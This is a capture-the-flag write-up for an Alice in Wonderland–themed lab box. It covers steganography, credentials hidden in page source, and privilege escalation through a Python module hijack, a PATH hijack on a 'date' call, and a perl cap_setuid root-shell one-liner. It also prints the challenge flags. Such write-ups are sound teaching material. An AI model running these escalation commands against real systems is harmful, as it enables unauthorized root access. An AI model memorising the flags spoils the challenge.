








# Wonderland — CTF Writeup

An Alice in Wonderland–themed boot2root box. The path to root goes through steganography, hidden directory breadcrumbs, a Python library-hijack, a `PATH` hijack against a vulnerable binary, and finally a Linux capability abuse on `perl`.

**Flags found:** `user.txt` and `root.txt`
**Techniques used:** service enumeration, directory brute-forcing, steganography (`binwalk`, `steghide`), source-code inspection, SSH, `sudo -l` abuse, Python module hijacking, `PATH` hijacking, Linux capabilities privilege escalation (`getcap`)

---

## Tools Used

| Tool | Purpose |
|------|---------|
| `nmap` | Port/service/version scanning |
| `gobuster` | Directory brute-forcing on the web server |
| `wget` | Downloading discovered image files |
| `binwalk` | Inspecting images for embedded/hidden file data |
| `steghide` | Extracting steganographically hidden data from JPEGs |
| Browser dev tools (view-source) | Inspecting hidden HTML elements for leaked credentials |
| `ssh` | Initial remote access as `alice` |
| `sudo -l` | Enumerating allowed privileged commands |
| Python (`random.py` module hijack) | Privilege escalation from `alice` to `rabbit` |
| `linpeas.sh` | Automated local privilege-escalation enumeration |
| `strings` / binary inspection | Analyzing the `teaParty` binary for unqualified command calls |
| `$PATH` hijack (fake `date`) | Privilege escalation from `rabbit` to `hatter` |
| `getcap` | Enumerating binaries with elevated Linux capabilities |
| GTFOBins | Reference for abusing `perl`'s `cap_setuid+ep` capability |
| `perl` (POSIX setuid) | Final privilege escalation from `hatter` to `root` |

## Attack Chain

```
Nmap (22/80) 
  → Gobuster (/img, /poem, /r) 
  → Steghide on white_rabbit_1.jpg → "rabbit" hint 
  → Directory path /r/a/b/b/i/t/ 
  → Hidden creds in page source (alice:HowDothTheLittleCrocodileImproveHisShiningTail) 
  → SSH as alice 
  → sudo -l → walrus_and_the_carpenter.py as rabbit 
  → Python random.py module hijack → shell as rabbit 
  → teaParty PATH hijack on `date` → shell as hatter 
  → getcap → perl cap_setuid+ep → root
```

---

## 1. Recon — Nmap

Started with a standard service/version scan against the target.

```
nmap -sV 10.48.150.121
```



Two open ports:

| Port | Service | Version |
|------|---------|---------|
| 22   | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80   | http    | Golang net/http server |

## 2. Web Enumeration

Browsing to port 80 landed on a themed landing page, "Follow the White Rabbit," quoting *Alice in Wonderland*.



Ran `gobuster` against the web root to enumerate hidden directories.

```
gobuster dir -u http://10.48.150.121/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50
```



Three directories turned up: `/img/`, `/r/`, and `/poem/`.

- **`/img/`** — directory listing exposed three image files: `alice_door.jpg`, `alice_door.png`, `white_rabbit_1.jpg`.

  

- **`/r/`** — another themed page, "Keep Going," continuing the Alice narrative and hinting that `/r/` itself is the start of a deeper path.

  

- **`/poem/`** — the full text of Lewis Carroll's *Jabberwocky*, seemingly just flavor text.

  

## 3. Steganography on the Images

Downloaded all three images from `/img/` with `wget` and inspected them.

### Binwalk

```
binwalk alice_door.jpg
binwalk alice_door.png
binwalk white_rabbit_1.jpg
```



Nothing immediately actionable — `alice_door.jpg` shows some embedded JFIF/TIFF/JBOOT-STAG artifacts and `alice_door.png` shows zlib-compressed data, but neither yields a clean extraction path on its own.

### Steghide

Tried `steghide extract` against the JPEGs (steghide doesn't work on PNGs) with an empty passphrase:

```
steghide extract -sf alice_door.jpg
steghide extract -sf white_rabbit_1.jpg
```



- `alice_door.jpg` — fails, requires a real passphrase we don't have.
- `white_rabbit_1.jpg` — succeeds with an empty passphrase, extracting `hint.txt`, which spelled out **`r a b b i t`**.

## 4. Following the Path Hint

The `/r/` directory plus the `rabbit` hint suggested the directory structure itself spelled out a path. Walking `r → a → b → b → i → t` led to a live page:

```
http://10.48.132.48/r/a/b/b/i/t/
```


Viewing the page source revealed a hidden (`display: none;`) paragraph containing what looked like SSH credentials:

```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```


## 5. Initial Access — SSH as alice

Used the discovered credentials to SSH into the box.

```
ssh alice@10.48.132.48
```


`ls` in alice's home directory showed `root.txt` and `walrus_and_the_carpenter.py`.

### sudo -l

```
sudo -l
```


Alice can run, as user **rabbit**, without further restriction:

```
(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

## 6. Reading the First Flag

Ran `linpeas.sh` for enumeration.


A challenge hint indicated the flags were placed "upside down" — i.e., swapped relative to the usual convention. `root.txt` sat in alice's home directory, while the real user flag was retrievable from `/root/user.txt`:

```
cat /root/user.txt
```


```
thm{Curiouser and curiouser!}
```

## 7. Privilege Escalation — Python Library Hijacking (alice → rabbit)

`walrus_and_the_carpenter.py` imports Python's `random` module. Since the script can be run via `sudo` as `rabbit`, and Python resolves local imports before searching the standard library path, planting a malicious `random.py` in the same working directory hijacks the import.

```bash
echo "import subprocess;subprocess.call('/bin/sh');" > random.py
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```


This is effectively a Trojan-module attack: when `walrus_and_the_carpenter.py` runs (as `rabbit`, via `sudo`) and hits `import random`, Python loads the attacker-controlled `random.py` sitting in the same directory instead of the real standard-library module, executing the embedded shell payload and dropping a shell as **rabbit**.

## 8. Privilege Escalation — PATH Hijack (rabbit → hatter)

In rabbit's home directory sat a compiled binary, `teaParty`.

```
./teaParty
```


It crashed with a segfault. Inspecting the binary's embedded strings showed it shells out to external commands without an absolute path:

```
/bin/echo -n 'Probably by ' && date --date='next hour'
```


Since `date` is called by name (not `/bin/date`), it's resolved via `$PATH` — classic `PATH` hijack setup. Prepended rabbit's home directory to `$PATH` and dropped a fake `date` that spawns a shell instead:

```bash
export PATH=/home/rabbit:$PATH
echo "/bin/bash" > date
chmod +x ./date
./teaParty
```


Running `teaParty` again now executes the attacker's `date` script instead of the real one, dropping a shell as user **hatter**.

## 9. Privilege Escalation — Linux Capabilities (hatter → root)

Checked for binaries with elevated Linux capabilities:

```
getcap -r / 2>/dev/null
```


`/usr/bin/perl5.26.1` (and the `perl` symlink) carry `cap_setuid+ep` — meaning perl can set its effective UID to 0 even when run as an unprivileged user. This is a textbook GTFOBins privilege escalation vector.


Abused the capability to spawn a root shell:

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```


The prompt drops straight to `#`, confirming a root shell.

## 10. Root Flag

With root, listed `/home` and grabbed the final flag from alice's directory (a callback to the earlier "flags are upside down" hint — `root.txt` sits under `alice`, not `/root`):

```
ls /home
cd alice
cat root.txt
```


Solved:

```
thm{Twinkle, twinkle, little bat! How I wonder what you're at!}
```

---

## Lessons / Takeaways

- **Steganography as a delivery mechanism** — not every image is just an image; always check with `binwalk`/`steghide` when a CTF theme nudges you toward "hidden" content.
- **Never trust `display: none`** — hidden HTML elements are still fully present in the page source.
- **Python import resolution order** — a script that imports a stdlib-named module from a writable, sudo-executable working directory is a module-hijack risk.
- **Unqualified command calls in binaries/scripts** — always call binaries with full paths (`/bin/date`, not `date`) to avoid `PATH`-based hijacks.
- **Audit Linux capabilities, not just SUID bits** — `getcap -r /` should be part of every privesc checklist; `cap_setuid+ep` on an interpreter is equivalent to a SUID root shell.
